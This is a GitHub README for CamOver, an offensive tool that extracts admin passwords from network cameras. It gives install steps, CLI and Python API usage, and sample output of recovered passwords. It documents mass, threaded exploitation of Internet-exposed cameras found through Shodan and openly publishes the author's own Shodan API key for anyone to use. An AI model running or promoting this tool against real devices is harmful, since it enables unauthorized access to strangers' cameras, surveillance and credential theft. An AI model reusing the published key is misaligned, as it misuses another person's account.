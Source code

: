 # CamOver

 CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

## Features

* Exploits vulnerabilities in most popular camera models such as `CCTV`, `GoAhead` and `Netwave`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamOver
```

## Basic usage

To use CamOver just type `camover` in your terminal.

```
usage: camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--api API]

CamOver is a camera exploitation tool that allows to disclosure network camera
admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --api API             Shodan API key for exploiting devices over Internet.
```

### Examples

Let's hack my camera just for fun.

```shell
camover -a 192.168.99.100
```

**output:**

```shell
[*] (192.168.99.100) - connecting to device...
[*] (192.168.99.100) - accessing device rom...
[*] (192.168.99.100) - extracting admin password...
[i] (192.168.99.100) - password: mamahacker123
```

Let's try to use Shodan search engine to exploit cameras over Internet and save all obtained passwords to `passwords.txt`, we will use it with `-t` for fast exploitation.

```shell
camover -t --api PSKINdQe1GyxGgecYz2191H2JoS9qvgD -o passwords.txt
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**output:**

```shell
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

Let's try to use opened database of hosts with `-t` for fast exploitation.

```shell
camover -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## CamOver API

CamOver also has their own Python API that can be invoked by importing CamOver to your code:

```python
from camover import CamOver
```

### Basic functions

There are all CamOver basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by network address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from camover import CamOver

camover = CamOver()

camera = camover.connect('192.168.99.100')
print(camover.exploit(camera))
```

**output:**

```shell
'mamahacker123'
```
